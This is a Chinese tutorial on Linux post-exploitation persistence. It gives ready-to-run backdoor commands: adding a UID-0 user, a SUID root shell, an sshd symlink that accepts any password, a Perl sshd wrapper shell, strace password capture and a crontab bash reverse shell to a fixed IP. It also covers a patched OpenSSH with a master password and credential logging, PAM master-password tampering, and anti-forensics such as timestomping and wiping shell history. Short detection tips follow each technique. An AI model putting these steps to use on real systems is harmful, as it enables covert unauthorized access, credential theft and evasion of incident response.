

第4篇：Linux权限维持--后门篇
本文将对Linux下常见的权限维持技术进行解析，知己知彼百战不殆。
1、一句话添加用户和密码
添加普通用户：
# 创建一个用户名guest，密码123456的普通用户
useradd -p `openssl passwd -1 -salt 'salt' 123456` guest
# useradd -p 方法 ` ` 是用来存放可执行的系统命令,"$()"也可以存放命令执行语句
useradd -p "$(openssl passwd -1 123456)" guest
# chpasswd方法
useradd guest;echo 'guest:123456'|chpasswd
# echo -e方法
useradd test;echo -e "123456\n123456\n" |passwd test
添加root用户：
# 创建一个用户名guest，密码123456的root用户
useradd -p `openssl passwd -1 -salt 'salt' 123456` guest -o -u 0 -g root -G root -s /bin/bash -d /home/test
可疑用户排查技巧：
# 查询特权用户特权用户(uid 为0)
[root@localhost ~]# awk -F: '$3==0{print $1}' /etc/passwd
# 查询可以远程登录的帐号信息
[root@localhost ~]# awk '/\$1|\$6/{print $1}' /etc/shadow
# 除root帐号外，其他帐号是否存在sudo权限。如非管理需要，普通帐号应删除sudo权限
[root@localhost ~]# more /etc/sudoers | grep -v "^#\|^$" | grep "ALL=(ALL)"
2、SUID Shell
Suid shell是一种可用于以拥有者权限运行的shell。
配合普通用户权限使用
cp /bin/bash /tmp/shell
chmod u+s /tmp/shell
使用guest用户登录就可疑获取root权限。

备注：bash2针对suid做了一些防护措施，需要使用-p参数来获取一个root shell。另外，普通用户执行这个SUID shell时，一定要使用全路径。
排查技巧：
# 在Linux中查找SUID设置的文件
find . -perm /4000
# 在Linux中查找使用SGID设置的文件
find . -perm /2000
# 取消s权限
chmod u-s /tmp/shell
3、ssh公私钥免密登录
在客户端上生成一对公私钥，然后把公钥放到服务器上（~/.ssh/authorized_keys），保留私钥。当ssh登录时，ssh程序会发送私钥去和服务器上的公钥做匹配。如果匹配成功就可以登录了。
客户端：
ssh-keygen -t rsa
过程中按三次回车，执行结束如下图:

进入/root/.ssh/文件夹，查看文件夹的内容，如下所示：

其中 id_rsa为私钥，id_rsa.pub为公钥，接下来打开id_rsa.pub，将内容复制到服务器。将id_rsa.pub的内容追加到/root/.ssh/authorized_keys内，配置完成。
排查技巧：查看/root/.ssh/authorized_keys是否被修改。
4、软连接
在sshd服务配置运行PAM认证的前提下，PAM配置文件中控制标志为sufficient时只要pam_rootok模块检测uid为0即root权限即可成功认证登陆。通过软连接的方式，实质上PAM认证是通过软连接的文件名 /tmp/su 在/etc/pam.d/目录下寻找对应的PAM配置文件(如: /etc/pam.d/su)，任意密码登陆的核心是auth sufficient pam_rootok.so，所以只要PAM配置文件中包含此配置即可SSH任意密码登陆，除了su中之外还有chsh、chfn同样可以。
在目标服务器上执行一句话后门：
ln -sf /usr/sbin/sshd /tmp/su;/tmp/su -oPort=8888
执行完之后，任何一台机器ssh root@IP -p 8888，输入任意密码，成功登录。

排查技巧：进程、端口都可以发现异常， kill -s 9 PID 结束进程即可清除后门。

5、SSH wrapper
首先启动的是/usr/sbin/sshd,脚本执行到getpeername这里的时候，正则匹配会失败，于是执行下一句，启动/usr/bin/sshd，这是原始sshd。原始的sshd监听端口建立了tcp连接后，会fork一个子进程处理具体工作。这个子进程，没有什么检验，而是直接执行系统默认的位置的/usr/sbin/sshd，这样子控制权又回到脚本了。此时子进程标准输入输出已被重定向到套接字，getpeername能真的获取到客户端的TCP源端口，如果是19526就执行sh给个shell
简单点就是从sshd fork出一个子进程，输入输出重定向到套接字，并对连过来的客户端端口进行了判断。
服务端：
cd /usr/sbin/
mv sshd ../bin/
echo '#!/usr/bin/perl' >sshd
echo 'exec "/bin/sh" if(getpeername(STDIN) =~ /^..4A/);' >>sshd
echo 'exec{"/usr/bin/sshd"} "/usr/sbin/sshd",@ARGV,' >>sshd
chmod u+x sshd
/etc/init.d/sshd restart
客户端：
socat STDIO TCP4:target_ip:22,sourceport=13377
#如果你想修改源端口，可以用python的struct标准库实现。其中x00x00LF是19526的大端形式，便于传输和处理。
>>> import struct
>>> buffer = struct.pack('>I6',19526)
>>> print repr(buffer)
'\x00\x00LF'
>>> buffer = struct.pack('>I6',13377)
>>> print buffer
4A

排查技巧：
# ls -al /usr/sbin/sshd
# cat /usr/sbin/sshd
可通过重装ssh服务恢复。
6、strace后门
通过命令替换动态跟踪系统调用和数据，可以用来记录用户ssh、su、sudo的操作。
#vim /etc/bashrc
alias ssh='strace -o /tmp/.ssh.log -e read,write,connect -s 2048 ssh'
# source /root/.bashrc

排查技巧：使用alias即可发现异常。

7、crontab反弹shell
crontab命令用于设置周期性被执行的指令。新建shell脚本，利用脚本进行反弹。
a、创建shell脚本，例如在/etc/evil.sh
#!/bin/bash
bash -i >& /dev/tcp/192.168.28.131/12345 0>&1
chmod +sx /etc/evil.sh
b、crontab -e 设置定时任务
#每一分钟执行一次
*/1 * * * * root /etc/evil.sh
重启crond服务，service crond restart，然后就可以用nc接收shell。

排查技巧：
# 查看可疑的定时任务列表
crontab -e
8、openssh后门
利用openssh后门，设置SSH后门密码及root密码记录位置，隐蔽性较强，不易被发现。
a、备份SSH配置文件
mv /etc/ssh/ssh_config /etc/ssh/ssh_config.old
mv /etc/ssh/sshd_config /etc/ssh/sshd_config.old
b、解压并安装补丁
tar zxf openssh-5.9p1.tar.gz
tar zxf openssh-5.9p1.tar.gz
cp openssh-5.9p1.patch/sshbd5.9p1.diff /openssh-5.9p1
cd openssh-5.9p1
patch < sshbd5.9p1.diff
c、记录用户名和密码的文件位置及其密码
vi includes.h
#define ILOG "/tmp/1.txt" //记录登录本机的用户名和密码
#define OLOG "/tmp/2.txt" //记录本机登录远程的用户名和密码
#define SECRETPW "123456789" //后门的密码
d、修改版本信息
vi version.h
#define SSH_VERSION "填入之前记下来的版本号,伪装原版本"
#define SSH_PORTABLE "小版本号"
e、安装并编译
./configure --prefix=/usr --sysconfdir=/etc/ssh --with-pam --with-kerberos5
make clean
make && make install
service sshd restart
f、对比原来的配置文件，使配置文件一致，然后修改文件日期。
touch -r /etc/ssh/ssh_config.old /etc/ssh/ssh_config
touch -r /etc/ssh/sshd_config.old /etc/ssh/sshd_config
g、清除操作记录
export HISTFILE=/dev/null
export HISTSIZE=0
echo >/root/.bash_history //清空操作日志
排查技巧：利用strace找出ssh后门.
# 1、获取可疑进程PI
ps aux | grep sshd
# 2、跟踪sshd PID
strace -o aa -ff -p PID
# 3、查看记录密码打开文件
grep open sshd* | grep -v -e No -e null -e denied| grep WR
9、PAM后门
PAM （Pluggable Authentication Modules ）是由Sun提出的一种认证机制。它通过提供一些动态链接库和一套统一的API，将系统提供的服务和该服务的认证方式分开，使得系统管理员可以灵活地根据需要给不同的服务配置不同的认证方式而无需更改服务程序，同时也便于向系统中添加新的认证手段。PAM最初是集成在Solaris中，目前已移植到其它系统中，如Linux、SunOS、HP-UX 9.0等。
利用方法:
1、获取目标系统所使用的PAM版本，下载对应版本的pam版本
2、解压缩，修改pam_unix_auth.c文件，添加万能密码
3、编译安装PAM
4、编译完后的文件在：modules/pam_unix/.libs/pam_unix.so，复制到/lib64/security中进行替换，即可使用万能密码登陆，并将用户名密码记录到文件中。
排查技巧：
# 1、通过Strace跟踪ssh
ps axu | grep sshd
strace -o aa -ff -p PID
grep open aa* | grep -v -e No -e null -e denied| grep WR
# 2、检查pam_unix.so的修改时间
stat /lib/security/pam_unix.so #32位
stat /lib64/security/pam_unix.so #64位
10、rookit后门
Mafix是一款常用的轻量应用级别Rootkits，是通过伪造ssh协议漏洞实现远程登陆的特点是配置简单并可以自定义验证密码和端口号。
利用方法：安装完成后，使用ssh 用户@IP -P 配置的端口，即可远程登录。
连接后的截图：

排查技巧：查看端口是否异常，RPM check查看命令是否被替换。
参考链接：
LINUX的两种后门总结(suid shell与inetd)
https://www.cnblogs.com/milantgh/p/3601812.html
linux后门总结
https://www.cnblogs.com/zaqzzz/p/12099463.html
https://www.secpulse.com/archives/100484.html
linux各种一句话反弹shell总结
https://yq.aliyun.com/articles/519250?type=2
Linux OpenSSH后门的添加与防范
https://yq.aliyun.com/articles/69350
Linux后门整理合集
https://www.cnblogs.com/maplered/p/9224617.html
https://www.cnblogs.com/zlgxzswjy/p/6209571.html
linux 后门